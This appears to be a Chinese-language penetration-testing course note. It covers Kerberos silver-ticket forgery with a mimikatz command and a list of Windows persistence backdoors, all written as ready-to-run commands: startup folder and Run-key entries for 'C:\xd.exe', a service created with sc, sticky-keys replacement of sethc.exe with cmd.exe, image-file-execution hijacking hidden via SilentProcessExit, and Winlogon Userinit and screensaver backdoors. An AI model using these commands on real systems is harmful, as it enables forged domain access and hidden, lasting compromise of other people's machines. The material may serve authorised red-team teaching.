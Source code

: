 ~~~
user：伪造的用户
cifs：共享文件
mimikatz kerberos::golden /user:webadmin /domain:god.org /sid:S-1-5-21-1218902331-2157346161-1782232778 /target:owa2010cn-god /service:cifs /rc4:82779569ef27d72b88b6c93dd8b37299 /ptt
白银票据总结
1、伪造的ST，只能访问指定的服务，如CIFS；
2、不与KDC交互，直接访问Server；
3、ST由服务账号 NTLM Hash 加密。
~~~



~~~
#权限维持-域环境&单机版-自启动
1、自启动路径加载
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
2、自启动服务加载
sc create ServiceTest binPath= C:\xd.exe  start= auto
sc delete ServiceTest
3、自启动注册表加载
-当前用户键值
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
-服务器键值（需要管理员权限）
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 
-添加启动项
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\xd.exe"
4、计划计时任务
参考前面横向移动课程

#权限维持-域环境&单机版-粘滞键
系统自带的辅助功能进行替换执行，放大镜，旁白，屏幕键盘等均可。
粘滞键位置：
c:\windows\system32\sethc.exe
move sethc.exe sethc1.exe
copy cmd.exe sethc.exe

#权限维持-域环境&单机版-映像劫持
测试：执行notepad成cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe /c calc"
配合GlobalFlag隐藏：执行正常关闭后触发
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\xd.exe"

#权限维持-域环境&单机版-屏保&登录
1、WinLogon配合无文件落地上线
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\xd.exe"
2、屏幕保护生效后执行后门
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\xd.exe" /f

~~~
